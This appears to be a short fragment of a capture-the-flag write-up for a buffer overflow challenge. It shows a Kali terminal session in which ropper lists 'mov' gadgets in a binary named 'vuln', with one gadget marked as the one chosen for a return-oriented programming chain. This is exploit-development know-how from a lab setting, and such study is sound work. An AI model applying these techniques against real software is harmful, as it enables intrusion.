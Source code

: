 ![UI Screenshot](newof2.jpg) 
```bash
kali@kali:~/Desktop/pctf/newoverflow2$ ropper --file vuln --search mov
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov

[INFO] File: vuln
0x00000000004007b4: mov byte ptr [rip + 0x2008bf], 1; nop; pop rbp; ret;  <---- this one
0x0000000000400777: mov byte ptr [rip + 0x2008fb], 1; nop; pop rbp; ret; 
0x0000000000400742: mov byte ptr [rip + 0x20092f], 1; pop rbp; ret; 
```